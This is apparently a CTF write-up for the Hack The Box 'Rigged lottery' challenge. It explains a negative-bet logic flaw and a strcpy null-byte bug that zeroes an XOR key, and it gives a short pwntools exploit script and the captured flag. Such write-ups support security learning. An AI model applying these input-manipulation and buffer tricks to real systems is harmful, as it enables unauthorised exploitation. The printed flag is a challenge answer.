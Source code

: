 # Rigged lottery

Solving this task requires chaining two bugs – binary and logical.
There is an easy way to get money: we can bet a negative number of coins and so get rich when we lose. This issue is shown on the Figure 1.

![](pictures/2021-03-07-23-33-27.png)

Figure 1 – Vulnerability in the binary

Then, in the claim function, we see that the flag gets XORed with the lucky number. We can set it with \x00 using the generate function, as strcpy puts \00 after the buffer. Vulnerable function is shown on the Figure 3.

![](pictures/2021-03-07-23-33-55.png)
Figure 2 – Vulnerable function in the binary

If we send consequent values from 32 to 0, the buffer will be nulled, and we'll get the plain flag.
The final exploit:

```Python
from pwn import *
io = remote("docker.hackthebox.eu", 30321)
for i in range(32, -1, -1):
   io.recvuntil("Exit.")
   io.sendline('1')
   io.recvuntil(":")
   io.sendline(f'{i}')
io.recvuntil("Exit.")
io.sendline('2')
io.recvuntil("?")
io.sendline(f'-100')
io.recvuntil("Exit.")
io.sendline('3')
print(io.recvall())
```

The result of the exploit execution can be seen on the Figure 3.

![](pictures/2021-03-07-23-34-08.png)

Figure 3 – Result of the exploit and the flag

Flag: HTB{strcpy_0nly_c4us3s_tr0ubl3!}.
